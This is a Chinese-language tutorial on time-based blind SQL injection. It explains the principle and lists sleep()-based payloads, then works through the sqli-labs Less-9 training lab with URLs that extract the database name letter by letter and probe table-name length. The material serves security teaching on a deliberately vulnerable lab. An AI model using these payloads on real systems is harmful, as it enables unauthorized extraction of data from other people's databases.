 ## **基于时间的盲注及流量分析**

### **1.Sql 注入盲注基础**

`Blind SQL`(**盲注**)是注入攻击的其中一种,向数据库发送 true 或 false 这样的问题,并根据应用程序返回的信息判断结果.这种攻击的出现是因为应用程序配置为只显示常规错误,但并没有解决 SQL 注入存在的代码问题。

演示盲注问题。当攻击者利用 SQL 注入漏洞进行攻击时,有时候 web 应用程序会显示,后端数据库执行 SQL 查询返回的错误信息. `Blind SQL` (盲注)与常规注入很接近,不同的是数据库返回数据的检索方式.若数据库没有输出数据到web 页面,攻击者会询问一些列的 true 或 false 问题,强制从数据库获取数据。

盲注可以分为基于**布尔的盲注**和基于**时间的盲注**

### **2.基于时间的盲注原理及展示**

**延时注入**，用的最多的注入

#### 常用的判断语句

```
' and if(1=0,1, sleep(10)) --+
" and if(1=0,1, sleep(10)) --+
) and if(1=0,1, sleep(10)) --+
') and if(1=0,1, sleep(10)) --+
") and if(1=0,1, sleep(10)) --+
```

> 利用 if(条件,0,1)函数，当条件为真，返回 1，假则返回 sleep（10）

#### ASCII码

![ASSII码.jpg](../../../../repo/assets/19.SQL注入/f82a34af7f0f98c212181fda9737d14e.jpg)

#### Sqli-lab 9-10 实验 基于时间的盲注

```bash
http:192.168.70.14:8088/Less-9/?id=1' and if(1=1,sleep(6),1) --+
```

在这里是`' and 1=1` 为真，延时 `6` 秒，假则直接返回（注入点和注入语句基本确定可使用）

##### Less-9 执行范例：

###### 数据库名

数据库名第一个字母

```bash
http:192.168.70.14:8088/Less-9/?id=1' and if(ascii(substr(database(),1,1))=115,sleep(10),1) --+
```

当数据库名第一个字母的 `ascii` 码等于 `115` 时，执行 `sleep(10)`函数等待 10 秒。

###### 表名长度

```
http:192.168.70.14:8088/Less-9/?id=1' and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1))>1,sleep(5),0)--+
```
